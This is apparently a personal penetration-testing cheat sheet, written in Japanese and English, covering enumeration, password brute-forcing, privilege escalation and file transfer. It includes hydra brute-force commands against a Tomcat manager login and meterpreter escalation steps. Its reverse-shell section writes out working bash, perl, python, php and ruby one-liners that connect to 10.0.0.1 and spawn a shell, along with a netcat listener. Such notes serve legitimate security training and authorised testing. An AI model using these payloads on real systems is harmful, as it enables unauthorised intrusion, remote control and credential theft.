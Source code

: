 # Cheat Sheet


## Enumeration
### nmap
- 全ポートスキャン: `nmap -sS -A -T4 -Pn -p- $IP`
- 特定ポートのチェック: `nmap -sS -A -p[port] --script vuln $IP`

### rustscan
- installation: `sudo snap install -y rustscan`
- 全ポートスキャン: `rustscan -a $IP --ulimit 10000 -- -sS -Pn -A > rustscan.log`

### gobuster
- ディレクトリやファイルの探索
  - `gobuster -u http://$IP -w ~/tools/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-small.txt -t 50`

### ffuf
- ディレクトリやファイルの探索
- コマンド例
  - ディレクトリ検索: `ffuf`

### WinPEAS
- https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite
- Win系OSのサーバの情報をとる
- 手順
  1. SMB サーバを立てて WinPEAS のあるディレクトリを公開 `sudo python3 ~/tools/impacket/examples/smbserver.py share .`
  2. リモートでダウンロード: `copy \\10.10.14.23\share\x64\Release\winPEASx64.exe`
  3. winPEAS を実行: `./winPEAS.exe`

### Watson
- Windows OS でパッチ未適用などによる脆弱性を探す
- 

## Password Cracking
### hydra
- webサービスで総当たりする
- Basic認証総当たり(`user:pass`形式のコーパス): `hydra -C ~/tools/wordlists/SecLists/Passwords/Default-Credentials/tomcat-betterdefaultpasslist.txt http-post://$IP:8080/manager/html`


## Exploitation
### Webshell
- web上でコマンド実行できる
- https://www.hackingdream.net/2020/02/reverse-shell-cheat-sheet-for-penetration-testing-oscp.html

### msfvenom
- metasploitのペイロードを取れる
- ペイロードの列挙: `msfvenom -l payloads`


## Privesc
### local exploit suggester
- meterpreter shell をバックグラウンドに移し、`use post/multi/recon/local_exploit_suggester` する
- sesionオプションを指定し、run 

### Windows Exploit Suggester
- `pip install xlrd==1.2.0` が必要
- `~/tools/Windows-Exploit-Suggester/windows-exploit-suggester.py --update` でデータベース更新
- `~/tools/Windows-Exploit-Suggester/windows-exploit-suggester.py --database 2021-06-07-mssb.xls --systeminfo systeminfo.txt`

### meterpreter shell
- `getprivs`: 取得可能な権限をとる
- `getsystem`
- `migrate [pid]`: 安定しているプロセスに移動するとき
- `ps`: 動いているプロセスの一覧
- `shell`: cmd.exe とかに移る
- `sysinfo`: システムの軽い情報調査



## Reverse shells
### Receiver
- `nc -lnvp 4444`

### sender
- http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet
- bash: `bash -i >& /dev/tcp/10.0.0.1/8080 0>&1`
- perl: `perl -e 'use Socket;$i="10.0.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'`
- python: `python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'`
- php: `php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'`
- ruby: `ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",1234).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'`


## Operating System
### Windows Command Prompt
| コマンド名 | 説明 |
|---|---|
| type | ファイルの中身を見る |
| more | ファイルの中身を見る |
| whoami | whoami? |
| icacls (cacls) | ACL の表示や変更: 権限情報がわかる (https://www.atmarkit.co.jp/ait/articles/0601/28/news016.html) |
| systeminfo | OSやシステムの情報を表示 |



## File transfer
### SimpleHTTPserver
- カレントディレクトリをルートとした簡易Webサーバを立てることができる．
  - `sudo python -m SimpleHTTPServer [port]`
  - ファイル転送に活用
- 対象サーバで `<script src="http://.../a.js">`により任意の悪意のあるJavaScriptを実行させることなどが可能

### smbserver.py
- `sudo python3 ~/tools/impacket/examples/smbserver.py share .`


## Miscellaneous
### ftp
- `put [src] [dst]`: ファイル転送
